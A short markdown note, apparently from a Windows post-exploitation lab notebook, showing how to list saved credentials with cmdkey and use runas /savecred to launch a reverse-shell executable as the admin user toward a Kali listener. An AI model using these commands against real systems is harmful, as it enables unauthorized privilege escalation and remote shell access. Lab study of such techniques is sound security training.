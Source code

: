 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```


1. List any saved credentials:

```
cmdkey /list
```

> [!NOTE]
> Credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

2. Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```